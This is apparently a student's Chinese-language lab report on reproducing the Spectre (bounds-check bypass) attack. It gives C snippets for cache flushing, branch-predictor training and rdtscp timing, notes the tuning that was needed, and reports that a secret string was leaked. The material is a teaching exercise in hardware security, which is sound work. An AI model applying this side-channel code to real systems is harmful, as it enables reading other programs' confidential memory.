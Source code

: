 # Spectre 攻击验证

2018011365 张鹤潇

### 实验环境

WSL2 Ubuntu 20.04

Intel(R) Core(TM) i7-8750H

### 关键步骤和源码

将 `secret` 地址减去 `spy` 地址得到 `malicious_x`，为使用 `spy` 越界读取敏感信息做准备，

```c
size_t malicious_x = secret - (char*)spy;
int len = strlen(secret);
while (--len >= 0) { // Attacking
    readMemoryByte(malicious_x++);
}
```

在 `readMemoryByte` 中对 `malicious_x` 发起攻击，循环 1000 轮，在每轮攻击中，首先将 `cache_set` 清出 Cache，

```c
for (i = 0; i < 256; i++)
    _mm_clflush(&cache_set[i * 512]);
```

接下来开始训练分支预测器：使用正确的索引调用 `victim_function` 五次，然后使用 malicious_x 调用 `victim_function` 一次。

```c
training_x = tries % SPY_SIZE;
for (j = 0; j < 5; j++) {
    for (k = 0; k < 5; k++) {
        victim_function(training_x);
    }
    victim_function(malicious_x);
}
```

`victim_function` 的实现如下，每次调用前要清除在缓存中的 `spy_size`.

```c++
void victim_function(size_t x)
{
    _mm_clflush(&SPY_SIZE);
    for (volatile int z = 0; z < 100; z++) {
    } /* 确保 cache 页全部换出 */
    if (x < SPY_SIZE) {	// 分支预测攻击目标
        temp &= cache_set[spy[x] * 512];
    }
}
```

根据 cache_set 内容的读取时间判断其是否在缓存中，这部分技巧较复杂，

```c
for (i = 0; i < 256; i++) {
    mix_i = ((i * 167) + 13) & 255;
    addr = &cache_set[mix_i * 512];

    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD && mix_i != spy[tries % SPY_SIZE]) {
        results[mix_i]++;
    }
}
```

循环 1000 轮，`results` 中值最高的项就是攻击得到的敏感数据。

### 影响因素分析

本次实验的难度很大，细节极多，实验指导书提供的信息不足，我参考 [SpectrePoC (github.com)](https://github.com/crozone/SpectrePoC/blob/master/spectre.c) 才完成了实验。

再发起攻击之前，要向 `cache_set` 中写入数据以屏蔽 OS 的 COW 机制。

```c
for (size_t i = 0; i < cache_set_size; i++)
    cache_set[i] = 1;
```

关闭编译器优化，防止其影响关键代码的运行，编译选项指定 `-O0`.

在 `victim_function` 中，将 `SPY_SIZE` 清出缓存后插入一段忙等，保证缓存页全部换出。

在 `spy` 数组前后定义两个 64 bytes 的 `unused` 数组，其长度超过 L1D cache line 的大小，以屏蔽缓存的成行读写对攻击的影响。

这些困难与硬件结构高度相关，让我充分体会到了硬件安全的复杂。

### 实验结果

如图所示，利用 Spectre 漏洞正确读取了敏感字符串。

![image-20210519095500500](report_pic/image-20210519095500500.png)

